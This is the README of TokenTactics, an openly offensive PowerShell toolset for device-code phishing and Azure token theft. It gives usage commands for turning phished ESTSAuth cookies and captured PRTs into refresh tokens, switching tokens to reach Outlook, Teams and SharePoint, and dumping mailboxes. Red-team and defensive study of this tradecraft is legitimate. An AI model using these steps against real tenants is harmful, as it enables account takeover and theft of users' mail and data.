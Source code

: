 # TokenTactics
Azure JSON Web Token ("JWT") Manipulation Toolset

Azure access tokens allow you to authenticate to certain endpoints as a user who signs in with a device code. Even if they used multi-factor authentication. Once you have a user's access token, it may be possible to access certain apps such as Outlook, SharePoint, OneDrive, MSTeams and more. 

For instance, if you have a Graph or MSGraph token, you can then connect to Azure and dump users, groups, etc. You could then, depending on conditional access policies, switch to an Azure Core Management token and run [AzureHound](https://github.com/BloodHoundAD/AzureHound). Then, switch to an Outlook token and read/send emails or MS Teams and read/send messages!

For more on Azure token types [Microsoft identity platform access tokens](https://docs.microsoft.com/en-us/azure/active-directory/develop/access-tokens)

There are some example requests to endpoints in the resources folder. There is also an example phishing template for device code phishing.

You may also use these tokens with [AAD Internals](https://o365blog.com/aadinternals/) as well. We strongly recommended to check this amazing tool out.

## Installation and Usage

```Import-Module .\TokenTactics.psd1```

```Get-Help Get-Azure-Token```

```Invoke-RefreshToSubstrateToken```

### Generate Device Code

```Get-AzureToken -Client MSGraph```

Once the user has logged in, you'll be presented with the JWT and it will be saved in the $response variable. To access the access token use ```$response.access_token``` from your PowerShell window to display the token. You may also display the refresh token with ```$response.refresh_token```. Hint: You'll want the refresh token to keep refreshing to new access tokens! By default, Get-AzureToken results are logged to TokenLog.log.

#### DOD/Mil Device Code
```Get-AzureToken -Client DODMSGraph```

### Get a Refresh Token from ESTSAuth* Cookie 

```Get-AzureTokenFromESTSCookie -estsAuthCookie "0.AbcApTk..." ```

This module uses authorization code flow to obtain an access token and refresh token using ESTSAuth (or ESTSAuthPersistent) cookie. Useful if you have phished a session via Evilginx or have otherwise obtained this cookie. 

Be sure to use the right cookie! `ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`. You can usually tell which one to use based on length, the longer cookie is the one you want to use :) 

*Note: This may not work in all cases as it may require user interaction. If this is the case, either use the Device Code flow above, or try `roadtx interactiveauth --estscookie`*

### Refresh or Switch Tokens

```Invoke-RefreshToOutlookToken -domain myclient.org -refreshToken 0.A```

```$OutlookToken.access_token```

### Connect
```Connect-AzureAD -AadAccessToken $response.access_token -AccountId user@myclient.org```

### Refresh a PRT

Once a PRT has been captured, auth with roadrecon to obtain your access_token and refresh_token. When refreshing with TokenTactics, use ClientID 1b730954-1685-4b74-9bfd-dac224a7b894.

```Invoke-RefreshToMSGraphToken -domain myclient.org -ClientId 1b730954-1685-4b74-9bfd-dac224a7b894 -refreshToken 0.A```

### Clear tokens
```Invoke-ClearToken -Token All```

### Commands
```powershell
Get-Command -Module TokenTactics

CommandType     Name                                               Version    Source
-----------     ----                                               -------    ------
Function        Get-AzureToken                                     0.0.2      TokenTactics
Function        Get-AzureTokenFromESTSCookie                       0.0.2      TokenTactics
Function        Invoke-ClearToken                                  0.0.2      TokenTactics
Function        Invoke-DumpOWAMailboxViaMSGraphApi                 0.0.2      TokenTactics
Function        Invoke-ForgeUserAgent                              0.0.2      TokenTactics
Function        Invoke-OpenOWAMailboxInBrowser                     0.0.2      TokenTactics
Function        Invoke-ParseJWTtoken                               0.0.2      TokenTactics
Function        Invoke-RefreshToAzureCoreManagementToken           0.0.2      TokenTactics
Function        Invoke-RefreshToAzureManagementToken               0.0.2      TokenTactics
Function        Invoke-RefreshToDODMSGraphToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToGraphToken                         0.0.2      TokenTactics
Function        Invoke-RefreshToMAMToken                           0.0.2      TokenTactics
Function        Invoke-RefreshToMSGraphToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToMSManageToken                      0.0.2      TokenTactics
Function        Invoke-RefreshToMSTeamsToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeAppsToken                    0.0.2      TokenTactics
Function        Invoke-RefreshToOfficeManagementToken              0.0.2      TokenTactics
Function        Invoke-RefreshToOutlookToken                       0.0.2      TokenTactics
Function        Invoke-RefreshToSharepointOnlineToken              0.0.2      TokenTactics
Function        Invoke-RefreshToSubstrateToken                     0.0.2      TokenTactics
Function        Invoke-RefreshToYammerToken                        0.0.2      TokenTactics
```

## Authors and contributors
- [@0xBoku](https://github.com/boku7) co-author and researcher.

TokenTactic's methods are highly influenced by the great research of Dr Nestori Syynimaa at https://o365blog.com/.


